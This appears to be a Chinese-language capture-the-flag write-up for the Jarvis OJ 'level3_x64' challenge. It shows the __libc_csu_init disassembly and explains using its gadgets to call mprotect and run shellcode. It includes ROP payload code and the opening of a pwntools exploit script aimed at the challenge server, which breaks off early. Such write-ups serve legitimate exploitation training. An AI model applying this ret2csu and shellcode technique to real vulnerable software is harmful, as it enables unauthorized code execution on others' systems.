 ```shell
.text:0000000000400674                 xor     ebx, ebx
.text:0000000000400676                 sar     rbp, 3
.text:000000000040067A                 sub     rsp, 8
.text:000000000040067E                 call    _init_proc
.text:0000000000400683                 test    rbp, rbp
.text:0000000000400686                 jz      short loc_4006A6
.text:0000000000400688                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400690
.text:0000000000400690 loc_400690:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400690                 mov     rdx, r13
.text:0000000000400693                 mov     rsi, r14
.text:0000000000400696                 mov     edi, r15d
.text:0000000000400699                 call    qword ptr [r12+rbx*8]
.text:000000000040069D                 add     rbx, 1
.text:00000000004006A1                 cmp     rbx, rbp
.text:00000000004006A4                 jnz     short loc_400690
.text:00000000004006A6
.text:00000000004006A6 loc_4006A6:                             ; CODE XREF: __libc_csu_init+36j
.text:00000000004006A6                 add     rsp, 8
.text:00000000004006AA                 pop     rbx
.text:00000000004006AB                 pop     rbp
.text:00000000004006AC                 pop     r12
.text:00000000004006AE                 pop     r13
.text:00000000004006B0                 pop     r14
.text:00000000004006B2                 pop     r15
.text:00000000004006B4                 retn
.text:00000000004006B4 __libc_csu_init endp
```



在loc_4006A6这个函数下面，有6个pop。
在loc_400690函数下面刚好前三个寄存器的赋值语句，以及一个call函数调用，简直完美有没有。
所以我们只需要先调用loc_4006A6
将r13,r14,r15设置为mprotect函数的三个参数值，将r12设置为mprotect的地址，rbx置0，再调用loc_400690的时候，
自然就执行mprotect函数了。（为了跳出这个循环，还需将rbp设置为1） 



```python
#try to call mprotect 
payload5+='a'*8+p64(0)+p64(1)+p64(mprotect_got)+p64(7)+p64(0x1000)+p64(0x600000)
payload5+=p64(csu_end)
#try to call shellcode
payload5+='a'*8+p64(0)+p64(1)+p64(bss_got)+p64(0)+p64(0)+p64(0)
payload5+=p64(csu_end)
```

**不过我们需要把shellcode写入got表**
**mprotect也是要写入got表**
**否则就call [r12]无法执行**

最终的脚本

```python
#coding=utf-8
from pwn import *
context.binary = './level3_x64'
#conn=process('./level3_x64')
conn=remote("pwn2.jarvisoj.com", "9884")
e=ELF('./level3_x64')
#libc=ELF('/usr/lib64/libc-2.26.so')
libc=ELF('./libc-2.19-2.so')
vul_addr=e.symbols["vulnerable_function"]
write_plt=e.symbols['write']
write_got=e.got['write']
read_plt=e.symbols['read']
pop_rdi=0x4006b3 #pop rdi;ret
```